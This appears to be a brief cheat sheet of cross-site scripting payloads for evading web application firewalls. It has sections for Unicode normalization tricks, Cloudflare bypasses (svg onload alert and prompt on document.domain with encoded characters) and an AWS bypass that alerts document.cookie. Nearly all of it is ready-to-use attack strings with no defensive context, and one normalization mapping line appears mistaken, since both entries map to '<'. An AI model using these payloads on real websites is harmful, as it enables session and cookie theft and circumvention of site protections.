 ## NFKC Unicode Normalization

```
%EF%B9%A4 -> <
%EF%B9%A5 -> <
```

## Cloudflare

```
<svg/on/onload=alert(origin)>
```

```
<svg onload=prompt%26%230000000040document.domain)>
<svg onload=prompt%26%23x000000028;document.domain)>
```

## AWS

```
'%22%3E%3Casuka%20AutoFocus%20ContentEditable%20OnFocusIn%3D_%3Dalert%2C_%28document.cookie%29%3E'
```


